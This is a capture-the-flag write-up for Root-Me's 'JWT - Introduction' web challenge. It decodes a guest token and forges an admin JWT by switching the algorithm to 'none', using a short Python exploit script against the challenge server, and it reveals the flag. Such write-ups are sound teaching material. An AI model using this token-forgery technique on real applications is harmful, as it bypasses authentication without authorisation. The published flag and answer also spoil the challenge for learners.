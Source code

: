 ```yaml
---
title: JWT - Introduction
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, rootme]
---
```


* Points: 20
* Link: [https://www.root-me.org/en/Challenges/Web-Server/JWT-Introduction](https://www.root-me.org/en/Challenges/Web-Server/JWT-Introduction)

## Statement

> To validate the challenge, connect as admin.

## Analyzation

First look, we have a login form. There is a line ```Login as guest```. Click on it and there will be a guest's page.

Check the cookie, there is a new cookie added

```
jwt: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.OnuZnYMdetcg7AWGV6WURn8CFSfas6AQej4V9M13nsk
```

Decode it by [jwt.io](https://jwt.io/)

HEADER
```
{
  "typ": "JWT",
  "alg": "HS256"
}
```

PAYLOAD
```
{
  "username": "guest"
}
```

## Solution

Change the ```alg``` to ```None```, and change ```username``` to ```admin```. Check [CVE-2018-1000531](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1000531).

```py
import requests, jwt

URL = "http://challenge01.root-me.org/web-serveur/ch58/index.php"

encoded_jwt = jwt.encode({"username": "admin"}, key=None, algorithm="none")

response = requests.get(URL, cookies={"jwt": encoded_jwt})

print(response.text)
```

The flag is
```
S1gn4tuR3_v3r1f1c4t10N_1S_1MP0Rt4n7
```